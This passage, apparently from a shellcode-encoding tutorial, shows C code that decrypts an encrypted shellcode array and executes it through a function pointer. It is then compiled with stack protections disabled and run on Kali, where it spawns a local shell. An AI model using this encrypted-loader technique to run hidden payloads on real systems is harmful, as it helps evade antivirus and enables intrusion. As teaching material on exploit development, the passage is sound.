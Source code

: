 ```c
    unsigned char shellcode[] = "\x38\xd1\x0d\x2b\xdf\xc6\xf2\x1a\x97\x2b\xfc\x72\x5e\xcf\x67\x39\x10\xa7\xd4\x41\x29\x0a\x8e\xf6\xe2\xcb\x7e\x5e\x20\xff\x86\x71\x81\xf2\xca\x0b\x7d\x1a\x3c\xff";

    // Decrypt the shellcode
    decryptBlocks(shellcode, key);

    // Convert the shellcode variable into a pointer to a function	
    int (*ret)() = (int(*)())shellcode;
    printf("Executing Shellcode....\n\n\n");

    // Execute the function
    ret();
    
    return 0;
}
```

### Let's compile and run it:
```console
kali@kali:/tmp$ gcc decrypt_shellcode.c -o decrypt_shellcode -m32 -fno-stack-protector -z execstack
kali@kali:/tmp$ ./decrypt_shellcode 
Shellcode length = 40
\x38\xd1\x0d\x2b\xdf\xc6\xf2\x1a\x97\x2b\xfc\x72\x5e\xcf\x67\x39\x10\xa7\xd4\x41\x29\x0a\x8e\xf6\xe2\xcb\x7e\x5e\x20\xff\x86\x71\x81\xf2\xca\x0b\x7d\x1a\x3c\xff
Executing Shellcode....


kali@kali:/tmp$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
kali@kali:/tmp$ pwd
/tmp
kali@kali:/tmp$ exit
exit
```
